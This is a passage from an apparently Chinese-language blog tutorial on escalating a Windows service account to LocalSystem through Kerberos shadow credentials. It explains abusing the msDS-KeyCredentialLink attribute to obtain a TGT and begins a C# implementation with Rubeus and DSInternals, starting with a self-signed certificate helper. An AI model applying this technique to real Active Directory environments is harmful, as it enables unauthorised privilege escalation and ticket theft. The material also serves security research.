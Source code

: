 ![img](/assets/posts/2023-08-02-escalate-service-account-to-localSystem-via-kerberos/image-20220428092744784.png)

这种信任模型消除了使用无密码身份验证必须为每个人颁发客户端证书的需要。但是，域控制器仍需要用于会话密钥交换的证书。

这意味着如果我们可以写入用户的 `msDS-KeyCredentialLink` 属性，那么就可以获得该用户的 TGT。

下面，我们将基于 Rubeus 和 Michael Grafnetter（[@MGrafnetter](https://twitter.com/MGrafnetter)）的 [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) 库实现这种技术。这将为当前计算机生成一个自签名证书和 Key Credential，并将 Key Credential 信息存储在当前计算机的 `msDS-KeyCredentialLink` 属性中。生成的证书可以与 Rubeus 提供的 `Ask.TGT()` 方法一起使用，以请求 TGT 票据并进一步扩大攻击。

首先，我们创建一个 `GenerateSelfSignedCert()` 方法，通过 `System.Security.Cryptography.X509Certificates.CertificateRequest` 类为当前计算机创建一个自签名的 X509 证书。

```c#
private static X509Certificate2 GenerateSelfSignedCert(string cn)
{
    // UseMachineKeyStore: https://stackoverflow.com/questions/1102884/rsacryptoserviceprovider-cryptographicexception-system-cannot-find-the-file-spec
    CspParameters csp = new CspParameters(24, "Microsoft Enhanced RSA and AES Cryptographic Provider", Guid.NewGuid().ToString());
    csp.Flags = CspProviderFlags.UseMachineKeyStore;
    RSA rsa = new RSACryptoServiceProvider(2048, csp);
    CertificateRequest req = new CertificateRequest(String.Format("cn={0}", cn), rsa, HashAlgorithmName.SHA256, RSASignaturePadding.Pkcs1);
    X509Certificate2 cert = req.CreateSelfSigned(DateTimeOffset.Now, DateTimeOffset.Now.AddYears(1));
    return cert;
}
```